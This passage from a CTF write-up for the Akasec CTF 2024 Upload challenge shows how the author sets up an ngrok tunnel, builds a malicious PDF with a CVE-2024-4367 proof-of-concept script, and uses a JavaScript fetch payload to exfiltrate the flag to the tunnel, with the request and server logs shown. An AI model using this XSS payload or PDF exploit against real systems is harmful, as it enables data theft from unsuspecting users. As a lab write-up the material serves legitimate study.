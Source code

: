 Then, I'll use Ngrok to do port forwarding:

```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web)-[2024.06.10|14:16:56(HKT)]
└> ngrok http 80 --response-header-add="Access-Control-Allow-Origin:*"
[...]
Forwarding                    https://fa9e-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

> Note: The `Access-Control-Allow-Origin` response header is needed, otherwise the bot can't sends request to us because of the SOP (Same Origin Policy).

Next, modify the payload to get the flag!

```javascript
fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`<NGROK_URL_HERE>?flag=${flag}`);
  })
```

In this payload, the bot will first get the flag at route `/flag`, then exfiltrate the flag to us.

Let's do this!

```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:51:51(HKT)]
└> python3 CVE-2024-4367.py 'fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`https://fa9e-{REDACTED}.ngrok-free.app/?flag=${flag}`);
  })'
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

Upload the `poc.pdf`, jot down the uploaded filename, and send a POST request to `/report` and let the bot trigger our XSS payload:

```http
POST /report HTTP/1.1
Host: 172.206.89.197:9000
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

url=http://127.0.0.1:5000/view/file-1718000341478.pdf
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Codegate-CTF-2024-Preliminary/images/Pasted%20image%2020240610142045.png)

**Finally, we should be able to get the flag!**
```shell
[...]
127.0.0.1 - - [10/Jun/2024 14:20:02] "GET /?flag=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3_r0t4t333d_loooool%7D%22%7D HTTP/1.1" 200 -
127.0.0.1 - - [10/Jun/2024 14:20:02] "GET /?flag=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3_r0t4t333d_loooool%7D%22%7D HTTP/1.1" 200 -
[...]
```
